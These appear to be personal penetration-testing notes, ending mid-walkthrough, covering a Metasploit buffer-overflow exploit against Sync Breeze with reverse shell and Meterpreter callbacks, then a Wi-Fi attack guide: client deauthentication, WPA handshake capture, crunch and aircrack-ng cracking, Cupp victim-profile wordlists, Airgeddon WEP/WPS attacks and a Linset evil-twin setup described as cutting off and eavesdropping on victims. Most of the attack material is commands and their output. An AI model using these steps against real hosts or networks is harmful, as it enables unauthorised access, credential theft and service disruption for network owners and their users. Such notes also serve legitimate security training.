[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/http/syncbreeze_bof) > show payloads 

Compatible Payloads
===================

   #    Name                                                Disclosure Date  Rank    Check  Description
   -    ----                                                ---------------  ----    -----  -----------
   0    generic/custom                                                       normal  No     Custom Payload
   1    generic/debug_trap                                                   normal  No     Generic x86 Debug Trap
   2    generic/shell_bind_tcp                                               normal  No     Generic Command Shell, Bind TCP Inline
   3    generic/shell_reverse_tcp                                            normal  No     Generic Command Shell, Reverse TCP Inline
   4    generic/tight_loop                                                   normal  No     Generic x86 Tight Loop
   5    windows/adduser                                                      normal  No     Windows Execute net user /ADD
   6    windows/dllinject/bind_hidden_ipknock_tcp                            normal  No     Reflective DLL Injection, Hidden Bind Ipknock TCP Stager
   7    windows/dllinject/bind_hidden_tcp                                    normal  No     Reflective DLL Injection, Hidden Bind TCP Stager
   8    windows/dllinject/bind_ipv6_tcp                                      normal  No     Reflective DLL Injection, Bind IPv6 TCP Stager (Windows x86)
   9    windows/dllinject/bind_ipv6_tcp_uuid                                 normal  No     Reflective DLL Injection, Bind IPv6 TCP Stager with UUID Support (Windows x86)
   10   windows/dllinject/bind_named_pipe                                    normal  No     Reflective DLL Injection, Windows x86 Bind Named Pipe Stager
.............
```

We can specify a standard reverse shell payload (windows/shell_reverse_tcp) with set payload and list the options with show options :

```
msf6 exploit(windows/http/syncbreeze_bof) > set payload windows/shell_reverse_tcp 
payload => windows/shell_reverse_tcp
msf6 exploit(windows/http/syncbreeze_bof) > show options 

Module options (exploit/windows/http/syncbreeze_bof):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/shell_reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.101.116  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```

Let’s go ahead and set LHOST and RHOST to define our attacking host and target host respectively.

```
msf5 exploit(windows/http/syncbreeze_bof) > set LHOST 10.11.0.4
LHOST => 10.11.0.4
msf5 exploit(windows/http/syncbreeze_bof) > set RHOST 10.11.0.22
RHOST => 10.11.0.22
```

After setting LHOST to our Kali IP address and RHOST to the Windows host IP address, we can use check to verify whether or not the target host and application are vulnerable. Note that this check will only work if the target application exposes some sort of banner or other identifiable data.

```
msf5 exploit(windows/http/syncbreeze_bof) > check
[*] 10.11.0.22:80 - The target appears to be vulnerable.
```

With confirmation that the target is vulnerable, all that remains now is to run the exploit using the
exploit command as displayed below.

```
msf5 exploit(windows/http/syncbreeze_bof) > exploit

[*] Started reverse TCP handler on 10.11.0.4:4444
[*] Automatically detecting target...
[*] Target is 10.0.28
[*] Sending request...
[*] Command shell session 1 opened (10.11.0.4:4444 -> 10.11.0.22:50195)

Microsoft Windows [Version 10.0.16299.248]
(c) 2017 Microsoft Corporation. All rights reserved.
C:\Windows\system32> whoami
whoami
nt authority\system
```

Notice that when we execute the exploit, Metasploit automatically creates a payload listener,
eliminating the need for Netcat. Upon execution completion, a session is created and the reverse
shell is made available for us.

#### Metasploit Payloads

##### Staged vs Non-Staged Payloads

Before jumping into specific shellcode functionality, we must discuss the distinction between
staged and non-staged shellcode, as evidenced by the description of these two payloads:

```
windows/shell_reverse_tcp - Connect back to attacker and spawn a command shell
windows/shell/reverse_tcp - Connect back to attacker, Spawn cmd shell (staged)
```

**non-staged payload**

- is sent in its entirety along with the exploit

**staged payload**

- is usually sent in two parts.
- the first part contains a small primary payload that causes the victim machine to connect back to the
  attacker
- transfer a larger secondary payload containing the rest of the shellcode, and then execute
  it.

There are several situations in which we would prefer to use staged shellcode instead of non- staged. If the vulnerability we are exploiting does not have enough buffer space to hold a full payload, a staged payload might be suitable. Since the first part of a staged payload is typically smaller than a full payload, these smaller initial payloads can likely help us in space-constrained situations. In addition, we need to keep in mind that antivirus software will quite often detect embedded shellcode in an exploit. By replacing that code with a staged payload, we remove a good chunk of the malicious part of the shellcode, which may increase our chances of success. After the initial stage is executed by the exploit, the remaining payload is retrieved and injected directly into the victim machine’s memory.

**Note that in Metasploit, the “/” character is used to denote whether a payload is staged or not, so** 
**“shell_reverse_tcp” is not staged, whereas “shell/reverse_tcp” is.**

##### Meterpreter Payloads

Meterpreter

- is a multi-function payload that can be dynamically extended at run-time.

- provides more features and functionality than a regular command shell, offering capabilities such as file transfer, keylogging, and various other methods of interacting with the victim machine.
- These tools are especially useful in the post-exploitation phase. Because of Meterpreter’s flexibility and capability, it is the favorite and most commonly-used Metasploit payload.

A search for the “meterpreter” keyword returns a long list of results, but narrowing the search to the payload category reveals meterpreter versions for multiple operating systems and architectures including Windows, Linux, Android, Apple iOS, FreeBSD, and Apple OS X/macOS.

```
msf6 > search meterpreter type:payload

Matching Modules
================

   #    Name                                                        Disclosure Date  Rank    Check  Description
   -    ----                                                        ---------------  ----    -----  -----------
   0    payload/android/meterpreter/reverse_http                                     normal  No     Android Meterpreter, Android Reverse HTTP Stager
   1    payload/android/meterpreter/reverse_https                                    normal  No     Android Meterpreter, Android Reverse HTTPS Stager
   2    payload/android/meterpreter/reverse_tcp                                      normal  No     Android Meterpreter, Android Reverse TCP Stager
   3    payload/android/meterpreter_reverse_http                                     normal  No     Android Meterpreter Shell, Reverse HTTP Inline
   4    payload/android/meterpreter_reverse_https                                    normal  No     Android Meterpreter Shell, Reverse HTTPS Inline
   5    payload/android/meterpreter_reverse_tcp                                      normal  No     Android Meterpreter Shell, Reverse TCP Inline
   6    payload/apple_ios/aarch64/meterpreter_reverse_http                           normal  No     Apple_iOS Meterpreter, Reverse HTTP Inline
   7    payload/apple_ios/aarch64/meterpreter_reverse_https                          normal  No     Apple_iOS Meterpreter, Reverse HTTPS Inline
   8    payload/apple_ios/aarch64/meterpreter_reverse_tcp                            normal  No     Apple_iOS Meterpreter, Reverse TCP Inline
   9    payload/apple_ios/armle/meterpreter_reverse_http                             normal  No     Apple_iOS Meterpreter, Reverse HTTP Inline
   10   payload/apple_ios/armle/meterpreter_reverse_https                            normal  No     Apple_iOS Meterpre
```

There are a multitude of Meterpreter versions based on specific programming languages (Python, PHP, Java), protocols and transports (UDP, HTTPS, IPv6, etc), and other various specifications (32-bit vs 64-bit, staged vs unstaged, etc). 

For example, a small selection of Windows reverse meterpreter payloads is shown below:

```
 59  payload/windows/x64/meterpreter/bind_tcp_uuid                                normal  No     Windows Meterpreter (Reflective Injection x64), Bind TCP Stager with UUID Support (Windows x64)
   60  payload/windows/x64/meterpreter/reverse_http                                 normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet)
   61  payload/windows/x64/meterpreter/reverse_https                                normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse HTTP Stager (wininet)
   62  payload/windows/x64/meterpreter/reverse_named_pipe                           normal  No     Windows Meterpreter (Reflective Injection x64), Windows x64 Reverse Named Pipe (SMB) Stager
   63  payload/windows/x64/meterpreter/reverse_tcp                                  normal  No     Windows Meterpreter
```

We can select a specific meterpreter payload with set and configure it just as we would a standard reverse shell payload:

```
msf5 exploit(windows/http/syncbreeze_bof) > set payload windows/meterpreter/reverse_ht
tp
payload => windows/meterpreter/reverse_http
msf5 exploit(windows/http/syncbreeze_bof) > set LHOST 10.11.0.4
LHOST => 10.11.0.4
msf5 exploit(windows/http/syncbreeze_bof) > show options 

Module options (exploit/windows/http/syncbreeze_bof):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.101.104  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_http):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.101.116  yes       The local listener hostname
   LPORT     4444             yes       The local listener port
   LURI                       no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

Let’s try this payload against Syncbreeze. With everything configured correctly, we can launch the
exploit and establish a reverse meterpreter connection:

```
msf5 exploit(windows/http/syncbreeze_bof) > exploit

[*] Started HTTP reverse handler on http://10.11.0.4:4444
[*] Automatically detecting target...
[*] Target is 10.0.28
[*] Sending request...
[*] http://10.11.0.4:4444 handling request from 10.11.0.22; (UUID: ppowchzb) Staging x
[*] Meterpreter session 1 opened (10.11.0.4:4444 -> 10.11.0.22:50270)
```

##### Experimenting with Meterpreter

We can retrieve a list of all modules and commands built-in to Meterpreter with the help command:


## Wireless Network Attack

**Restoring Networkmanager after airmon-ng check kill**

```
# airmon-ng stop wlan0mon (or whatever the virtual interface name is)
# service NetworkManager start
# service wpa_supplicant start
```


### Method 1: Bruteforce attack

Kill processes that can cause problem 

```
# airmon-ng check kill
```


1. List the available wifi interface

```
# airmon-ng 

PHY	Interface	Driver		Chipset

phy0	wlp1s0		iwlwifi		Intel Corporation Wireless 8260 (rev 3a)
phy3	wlxe84e064b62fc	rt2800usb	Ralink Technology, Corp. RT2870/RT3070

```


2. Set Wireless Interface on Monitor Mode

```
# airmon-ng start wlp1s0


PHY	Interface	Driver		Chipset

phy0	wlp1s0		iwlwifi		Intel Corporation Wireless 8260 (rev 3a)

		(mac80211 monitor mode vif enabled for [phy0]wlp1s0 on [phy0]wlp1s0mon)
		(mac80211 station mode vif disabled for [phy0]wlp1s0)
phy3	wlxe84e064b62fc	rt2800usb	Ralink Technology, Corp. RT2870/RT3070

```


3. Scan For Available WiFis

```
# airodump-ng wlan0mon
```


Output

```

CH 14 ][ Elapsed: 1 min ][ 2021-01-23 18:18 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 BC:C0:0F:D2:C2:A8   -1        0        2    0  11   -1   WPA              <length:  0>                              
 F0:D1:A9:16:0A:28  -12       42        6    1   6  130   WPA2 CCMP   PSK  Sherwin's Wi-Fi Network                   
 3C:84:6A:A7:EB:B0  -30       45       12    0  10  195        CCMP   PSK  <length:  0>                              
 42:84:6A:A7:EB:B0  -30       52        0    0  10  195   WPA2 CCMP   PSK  <length:  0>                              
 BC:98:89:9D:3C:58  -38       44        6    0  11  130   WPA2 CCMP   PSK  PLDTHOMEFIBR-SHEN                         
 3E:77:E6:88:83:E2  -48       46        0    0   2  130   WPA2 CCMP   PSK  DIRECT-T5-BRAVIA                          
 E4:AB:89:82:82:03  -68       28       18    0   4  130   WPA2 CCMP   PSK  GlobeAtHome-2.4G-828203                   
 00:25:00:FF:94:73   -1        0        0    0  -1   -1                    <length:  0>                              
 8C:25:05:E1:7D:34  -71        6        0    0   1  270   WPA  CCMP   PSK  B315_17D34                               
```

4. Generate the Traffic that will be used

```
# airodump-ng -c 6 --bssid F0:D1:A9:16:0A:28 -w /home/sherwinowen/Desktop/wifi/bf_test wlan0mon
```

- -w name of the file that will be generated, the pcap will be saved in the current working direcory where the command was run at unless the path is specified.

- -bssid  specifies the bssid <From the output of the previous command> of the WiFi you wish to crack its passwords.

- -channel specifies the channel to listen on.

- -wlan0mon specifies the interface to capture traffic on.

  

Output

```
   CH 11 ][ Elapsed: 18 mins ][ 2021-01-23 21:44 ][ WPA handshake: BC:98:89:9D:3C:58 
  
   BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
  
   BC:98:89:9D:3C:58  -42  98     2860   388479  144  11  130   WPA2 CCMP   PSK  PLDTHOMEFIBR-SHEN                     
  
   BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
  
   BC:98:89:9D:3C:58  E4:B3:18:08:C9:79  -22    0e- 0e     0    34896  EAPOL                                            
   BC:98:89:9D:3C:58  8E:57:89:77:47:F4  -42    1e-24      0     5992                                                   
   BC:98:89:9D:3C:58  C8:85:50:E8:88:C4  -50    0e-24      6   135995                                                   
   BC:98:89:9D:3C:58  5C:1D:D9:4B:3E:0C  -56    0e- 0e     0   157853  
```

  

5. DeAuthenticate a connected Device

```
# aireplay-ng -0 0 -a BC:98:89:9D:3C:58 -c e4:b3:18:08:c9:79 wlan0mon

```

- -0  sets the count of number of deauthentication packets to send to the connected clients, station(s).
- -a  specify or set Access Point MAC Address, this case the BSSID of the WiFi you wish to crack its WEP and WPA-PSK Keys to get its password.
- -c  specify or set destination MAC address, in this case is the Device, STATION you want to deauthenticate from the WiFi network.
- wlan0mon  specifies the interface on promiscuous mode.

Output

```
21:36:50  Waiting for beacon frame (BSSID: BC:98:89:9D:3C:58) on channel 11
21:36:51  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [13|29 ACKs]
21:36:52  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [10|26 ACKs]
21:36:52  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [17|21 ACKs]
21:36:53  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 6|20 ACKs]
21:36:54  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 7|22 ACKs]
21:36:54  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [32|28 ACKs]
21:36:55  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [47|29 ACKs]
21:36:56  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [17|32 ACKs]
21:36:56  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [30|29 ACKs]
21:36:57  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [54|62 ACKs]
21:36:58  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [90|60 ACKs]
21:36:58  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [54|57 ACKs]
21:36:59  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [67|48 ACKs]
21:37:00  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [91|51 ACKs]
21:37:00  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [70|64 ACKs]
21:37:01  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [25|41 ACKs]
21:37:02  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 8|43 ACKs]
21:37:02  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [38|25 ACKs]
21:37:03  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [12|34 ACKs]
21:37:04  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [22|52 ACKs]
21:37:04  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [82|48 ACKs]
21:37:05  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [14|41 ACKs]
21:37:06  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [12|38 ACKs]
21:37:06  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [43|44 ACKs]
21:37:07  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [21|42 ACKs]
21:37:07  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [22|41 ACKs]
21:37:08  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 5|22 ACKs]
21:37:09  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 6|32 ACKs]
21:37:09  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 6|29 ACKs]
21:37:10  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 6|40 ACKs]
21:37:10  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 9|42 ACKs]
21:37:11  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [20|28 ACKs]
21:37:12  Sending 64 directed DeAuth (code 7). STMAC: [E4:B3:18:08:C9:79] [ 8|37 ACKs]
```

6. Crack password using crunch and aircack-ng

```
# crunch 14 14 '(#R3!neL$yl)' | aircrack-ng -a2 -b BC:98:89:9D:3C:58 -w - /home/sherwinowen/Desktop/wifi/bf_test-01.cap
```


### Method 2: Dictionary Attack

Start dictionary attack with Aircrack

```
# aircrack-ng -a2 -b BC:98:89:9D:3C:58 -w /dictionary/wordlist /wifi/bf_test-01.cap
```

- -b BSSID

- -w [POSSIBLE_PASSWORDS_FILE.TXT] [PATH_TO_WPA_HANDSHAKE_FILES*.cap]

  

#### Generate wordlist using crunch

```
# Generating wordlist using the character string
crunch 3 4 raj -o /root/Desktop/1.txt

# Generating alpha-numeric wordlist
crunch 2 3 raj123 -o /root/Desktop/3.txt

# Generating wordlist along with space character
crunch 1 3 raj\ -o /root/Desktop/4.txt

# Create wordlist using character set file of RainbowCrack
crunch 4 5 -f /usr/share/rainbowcrack/charset.txt loweralpha-numeric -o /root/Desktop/5.txt

# Generate wordlist with specific Pattern
Using option –t you can generate 4 type patters as specified below:
- Use @ for lowercase alphabets
- Use , for uppercase alphabets
- Use % for numeric character
- Use ^ for special character symbol
crunch 6 6 -t raj%%% -o /root/Desktop/6.txt

# Generate wordlist with Duplicate character limit
crunch 6 6 -t raj%%% -d 2% -o /root/Desktop/6.1.txt

# Use Permutation for generating a wordlist
crunch 3 6 -p raj chandel hackingarticles
Crunch will now generate approximately the following amount of data: 156 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 6 
chandelhackingarticlesraj
chandelrajhackingarticles
hackingarticleschandelraj
hackingarticlesrajchandel
rajchandelhackingarticles
rajhackingarticleschandel

# Generate a Dictionary with limited words
crunch 5 5 IGNITE -c 25 
Crunch will now generate the following amount of data: 150 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 25 
IIIII
IIIIG
IIIIN
IIIIT
IIIIE
IIIGI
IIIGG
IIIGN
IIIGT
IIIGE
IIINI
IIING
IIINN
IIINT
IIINE
IIITI
IIITG
IIITN
IIITT
IIITE
IIIEI
IIIEG
IIIEN
IIIET
IIIEE
```

**Wordlist Fragmentation**

Use **–b option** for wordlist fragmentation that split a single wordlist into multi wordlist. It is a quite useful option for dividing wordlist which is in GB can break into MB.

```
crunch 5 7 raj@123 -b 3mb -o START
```

**Generate compressed Dictionary**

Crunch let you generate compress wordlist with **option –z** and other parameters are gzip, bzip2, lzma, and 7z, execute given below command for compression.

```
crunch 5 7 raj@123 –z gzip -o START
```


#### Creating password list with Cupp

```
root@Hackingvision:~/cupp# python cupp.py -i

[+] Insert the informations about the victim to make a dictionary
[+] If you don't know all the info, just hit enter when asked! ;)

> First Name: morgan
> Surname: peter
> Nickname: parker
> Birthdate (DDMMYYYY): 09091997


> Partners) name: 
> Partners) nickname: spiderman
> Partners) birthdate (DDMMYYYY):


> Child's name: 
> Child's nickname: 
> Child's birthdate (DDMMYYYY):


> Pet's name: scooby
> Company name: hackingvision


> Do you want to add some key words about the victim? Y/[N]: any specific keyword
> Do you want to add special chars at the end of words? Y/[N]: n
> Do you want to add some random numbers at the end of words? Y/[N]:n
> Leet mode? (i.e. leet = 1337) Y/[N]: y

[+] Now making a dictionary...
[+] Sorting list and removing duplicates...
[+] Saving dictionary to morgan.txt, counting 1524 words.
[+] Now load your pistolero with morgan.txt and shoot! Good luck!
```


### Method 3: Evil Twin

#### Airgeddon

Indeed, it is not necessary, but I prefer to unload Network Manager and stop all other processes which would interfere in my activity:

```
$ sudo systemctl stop NetworkManager
$ sudo airmon-ng check kill
```

​	Launch the script:

```
$ sudo bash airgeddon.sh
```

​	[

​	Select the correct (wireless) interface, named **wlan0**:

​	[

​	Now select the second option from menu - Put interface in monitor mode:

​	[

​	Now we are armed completely. We are able to hack our first Wi-Fi network.

​	[

#### Automated WEP attack 

As I mentioned above, there are some different protocols and cyphers  using by Wi-Fi networks. The weakest one is WEP. The WEP protocol had a  bad design and can be cracked in a few minutes if we have enough  generated traffic. So we should start from checking whether any WEP  enabled networks is available around us.

​	Select  9  WEP attacks menu

​	[]

Select the 4. Explore for targets (monitor mode needed)’ menu item to find any WEP enabled Wi-Fi networks:


​	When started, press [Ctrl+C] to stop…

​	[

​	As you can noticed, I can reach the only one WEP enabled network:

```
4)  00:1E:58:C6:AC:FB  6  57%  WEP  dlink
```

​	Therefore, I enter 4:

​	

​	Currently I am completely ready to start the attack, I should select the ‘5. WEP "All-in-One" attack’ menu item:

​	

The WEP "All-in-One" attack combines different techniques to generate  enough traffic to decrypt the key (Caffe Latte, Hirte, Replay,  Chop-Chop, Fragmentation, Fake association, etc.

​	The program reports:

```
You have a valid WEP target network selected. Script can continue...``Press [Enter] key to continue...
```

​	And asks the path for the file to save the cracked password, I press [Enter] to accept the default proposal:

```
If the password for the wifi network is obtained with the "All-in-One" WEP attack, you should decide where to save it. Type the path to store the file or press [Enter] to accept the default proposal [/root/wep_captured_key-dlink.txt]
```


​	Next:

```
The path is valid and you have write permissions. Script can continue...``Press [Enter] key to continue...` `All parameters and requirements are set. The attack is going to start. Multiple windows will be opened, don't close anyone. When you want to stop the attack press [Enter] on this window and the script will automatically close them all``Press [Enter] key to continue...
```


​	WEP attack in progress:


​	The WEP password as ASCII string and in Hexadecimal will be shown in the new window:

​	

​	In my test they are:

```
ASCII: ey20001010
Hexadecimal: 4A656E6E793230303031303130
```

Also you can get them from the **/root/wep_captured_key-dlink.txt** file:

```
$ cat /root/wep_captured_key-dlink.txt
```

But in my test the ASCII string does not equal Hexadecimal. To prove that I type the command:

```
$ echo 4A656E6E793230303031303130 | xxd -r -p
Jenny20001010
```

​	

You can convert Hexadecimal value to ASCII string by the following command, where replace **Hex_Value** with actual Hexadecimal:

```
$ echo [Hex_Value] | xxd -r -p
```

#### Automated WPS attack 

Many WPS enabled Wi-Fi Access Points is vulnerable to WPS attacks.

Currently there are known issues with the devices that uses rt2800usb  drivers (chips RT3070, RT3272, RT3570, RT3572 etc). There is  unfortunately right now no solution. Therefore, the great [Alfa AWUS052NH](http://rover.ebay.com/rover/1/711-53200-19255-0/1?icep_ff3=9&pub=5575132165&toolid=10001&campid=5338168946&customid=&icep_uq=Alfa+AWUS052NH&icep_sellerId=&icep_ex_kw=&icep_sortBy=12&icep_catId=&icep_minPrice=&icep_maxPrice=&ipn=psmain&icep_vectorid=229466&kwid=902099&mtid=824&kw=lg) and [Panda Wireless PAU09 N600](http://rover.ebay.com/rover/1/711-53200-19255-0/1?icep_ff3=9&pub=5575132165&toolid=10001&campid=5338168946&customid=&icep_uq=Panda+Wireless+PAU09+N600&icep_sellerId=&icep_ex_kw=&icep_sortBy=12&icep_catId=&icep_minPrice=&icep_maxPrice=&ipn=psmain&icep_vectorid=229466&kwid=902099&mtid=824&kw=lg) do not suit for these attacks.

For all WPS attacks, I highly recommend to use [Alfa AWUS036NHA](http://rover.ebay.com/rover/1/711-53200-19255-0/1?icep_ff3=9&pub=5575132165&toolid=10001&campid=5338168946&customid=&icep_uq=Alfa+AWUS036NHA&icep_sellerId=&icep_ex_kw=&icep_sortBy=12&icep_catId=&icep_minPrice=&icep_maxPrice=&ipn=psmain&icep_vectorid=229466&kwid=902099&mtid=824&kw=lg). Because it is based on another chipset and uses another driver.

In the main menu select the ‘8. WPS attacks menu’ item:

​	


**There are 4 WPS attacks in airgeddon:**

- **Custom PIN association** 
- **Pixie Dust attack** 
- **Bruteforce PIN attack** 
- **Known PINs database based attack** 

##### Pixie Dust attack 

WPS PIN exploiting the low or non-existing entropy of some Access  Points, the so-called "pixie-dust attack" discovered by Dominique  Bongard in summer 2014.

As opposed to the traditional online brute-force attack, implemented in tools like [Reaver](https://en.kali.tools/?p=346) or Bully which aim to recover the pin in a few hours, this method can  get the PIN in only a matter of milliseconds to minutes, depending on  the target, if vulnerable.

As any other attacks, start from ‘4. Explore for targets (monitor mode needed)’:

​	

​	Select not Locked (marked red) AP:

​	

Next select ‘8. (reaver) Pixie Dust attack’. Select Pixie Dust timeout 100 or more seconds.

Starting attack. When started, press [Ctrl+C] to stop…

After stopping the attack (using [Ctrl+C]), the window will not be  closed automatically. So you'll have time to write down the password if  successful. You'll have to close it manually

​	

##### Known PINs database based attack 

The attack described in details in ‘[Effective WPS PINs attack based on known PIN and PIN generation algorithms](https://miloserdov.org/?p=325)’.

##### Bruteforce PIN attack 

This attack requires hours or days to get WPS PIN. Use the attack if previous ones failed.

##### Custom PIN association 

This attack lets you reveal WPA-PSK password of Wi-Fi network if you know WPS PIN.

​	


#### WPA/WPA2 attack 

If target Access Point is not WPS enabled or if all WPS attacked  failed, we can try to capture Handshake (frames by which the Access  Point and Station are exchanged during connection) and decrypt it.

For all the following attacks I will use [Alfa AWUS052NH](http://rover.ebay.com/rover/1/711-53200-19255-0/1?icep_ff3=9&pub=5575132165&toolid=10001&campid=5338168946&customid=&icep_uq=Alfa+AWUS052NH&icep_sellerId=&icep_ex_kw=&icep_sortBy=12&icep_catId=&icep_minPrice=&icep_maxPrice=&ipn=psmain&icep_vectorid=229466&kwid=902099&mtid=824&kw=lg).

First, we have to capture Handshake, therefore select ‘5. Handshake tools menu’ item in the main menu:



Start from 4. Explore for targets (monitor mode needed)’:


**The best targets have:**

- clients 
- strong signal 

After I selected the target AP, I enter 5. Capture Handshake:

​		

**We have 3 options:**

1. **Deauth / disassoc amok mdk3 attack** 
2. **Deauth aireplay attack** 
3. **WIDS / WIPS / WDS Confusion attack** 

​	

Usually I prefer the second option (Deauth aireplay attack), if it failed I try with ‘1. Deauth / disassoc amok mdk3 attack’.

Two windows will be opened. One with the Handshake capturer and other with the attack to force clients to reconnect.

Don't close any window manually, script will do when needed. In about  20 seconds maximum you'll know if you've got the Handshake.

I am asked:

```
Did you get the Handshake? (Look at the top right corner of the capture window) [y/n]
```

I got the Handshake.


​	Next:

```
Type the path to store the file or press [Enter] to accept the default proposal [/root/handshake-00:1E:58:C6:AC:FB.cap]
```

Now I ‘7. Return to main menu’ and select ‘6. Offline WPA/WPA2 decrypt menu’:


To launch Dictionary attack against capture file I select the first  menu item (‘1. (aircrack) Dictionary attack against capture file’).

The script reports:

```
You already have selected a capture file during this session [/root/handshake-00:1E:58:C6:AC:FB.cap]`
Do you want to use this already selected capture file? [Y/n] 

You already have selected a BSSID during this session and is present in capture file [00:1E:58:C6:AC:FB]
Do you want to use this already selected BSSID? [Y/n]
```

I agree.

As the path of a dictionary file I enter **/root/newrockyou.txt**.

The Dictionary attack in progress:

​	

If the attack succeeded the string, containing ‘**KEY FOUND!**’, will be displayed.

​	

In addition, the script will ask about storing the trophy file:



If the dictionary attack failed, you can try again with another dictionary of use the ‘**2. (aircrack + crunch) Bruteforce attack against capture file**’.

I recommend you to try eight digits and ten digits passwords (Numeric  chars). The first ones are Birthday dates (19990210); the second ones  are phone numbers (09341112233).

#### Crack Wifi Password Using Evil Twin Attack Using Wifislax

1. Install WifiSlax in Flash Drive or Pendrive using universal USB installer

2. Start WifiSlax

   a. Click on “Change To English Menu".

   b. Click on “Run with SMP Kernel”

   c. Click on “WifiSlax with KDE Desktop

3. Go to WifiSlax > WPA > Linset (Evil Twin Attack)

4. Linset will Start required Tolls

5. Select Wlan0

6. type “1” to select Wlan0

7. Enter “1” to select “todos los canales” which means select all channels. We need to search all channels to get all the networks available near you. If you want to hack a particular network whose channel number you know already, select 2 and proceed.

8. All the Available networks will be shown now, wait for 2-3 mins to complete the search and click “CTRL +C” To stop the search

9. Select the network that you want to hack from the list

10. Enter the number of the network that you want to hack, in my case, I am hacking my own network which is “Virus” and is located at number 5

11. Now we need to select hostpad, so type “1”

12. We need to enter the path of the handshake, there is no need to enter any address, by default it takes some root/micaprura.cap, so just Hit “Enter” without typing anything.

13. We are going to capture handshake using aircrack-ng, so enter “1"

14. We need to deactivate the process after the handshake is created, so we need to select “realizardesaut. masiva al ap objetivo” that is “1”

15. Now Handshake capturing process will start, and 2 windows will open. we need to wait until the handshake is created. You need to capture handshake compulsorily to proceed.

16. After the Handshake is captured, close the de authentication box

17. Select “Si” which means “Yes”. So, Enter “1”

18. Select “Interface Web Nutra”. So, Enter “1”

19. Select your Language, I am Selecting “English” as the content in my country is displayed in English. You can choose accordingly and enter the number

20. Now the main process will start DHCP, fake DNS, AP, deauth all, and wifi info dialog boxes will open. You need to wait until the client is connected to our network.

21. Check out for active clients. The victim cannot access their internet connection until we stop the process. DHCP and deauth all will stop them from receiving any packets which make them shift to another network i.e. our fake access point or fake network signal In this process, A DOS attack is launched and the victim loses their internet connection and the victim see’s it as “Limited Connection” When you are at this step, you can even eavesdrop on the victim. you can see all the websites they surf, each and every detail is displayed in FAKE DNS
    Now I will show you what happens when the process is started Original network gets disconnected and our newly created fake network with the same name connects to victim’s network and a page pop’s up